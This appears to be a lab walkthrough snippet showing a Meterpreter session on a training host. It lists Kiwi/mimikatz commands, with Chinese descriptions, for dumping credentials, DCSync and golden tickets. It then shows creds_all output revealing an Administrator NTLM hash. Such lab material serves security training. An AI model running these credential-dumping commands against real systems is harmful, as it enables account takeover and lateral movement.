 ```
meterpreter > help kiwi

Kiwi命令
=============

     命令说明
     ------ ----------
     creds_all 检索所有凭据（已解析）
     creds_kerberos 检索 Kerberos 凭证（已解析）
     creds_livessp 检索实时 SSP 凭据
     creds_msv 检索 LM/NTLM 凭据（已解析）
     creds_ssp 检索 SSP 凭据
     creds_tspkg 检索 TsPkg 凭据（已解析）
     creds_wdigest 检索 WDigest 凭据（已解析）
     dcsync 通过 DCSync 检索用户帐户信息（未解析）
     dcsync_ntlm 通过 DCSync 检索用户帐户 NTLM 哈希、SID 和 RID
     golden_ticket_create 创建一个黄金 kerberos 票证
     kerberos_ticket_list 列出所有 kerberos 票证（未解析）
     kerberos_ticket_purge 清除任何正在使用的 kerberos 票证
     kerberos_ticket_use 使用 kerberos 票证
     kiwi_cmd 执行任意 mimikatz 命令（未解析）
     lsa_dump_sam 转储 LSA SAM（未解析）
     lsa_dump_secrets 转储 LSA 机密（未解析）
     password_change 更改用户的密码/哈希
     wifi_list 列出当前用户的 wifi 配置文件/凭据
     wifi_list_shared 列出共享的 wifi 配置文件/凭据（需要 SYSTEM）
```

```
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username       Domain         NTLM                              SHA1
--------       ------         ----                              ----
Administrator  ATTACKDEFENSE  e3c61a68f1b89ee6c8ba9507378dc88d  fa62275e30d286c09d30d8fece82664eb34323ef

wdigest credentials
===================

Username        Domain         Password
--------        ------         --------
(null)          (null)         (null)
ATTACKDEFENSE$  WORKGROUP      (null)
Administrator   ATTACKDEFENSE  (null)

kerberos credentials
====================

Username        Domain         Password
--------        ------         --------
(null)          (null)         (null)
Administrator   ATTACKDEFENSE  (null)
attackdefense$  WORKGROUP      (null)

```
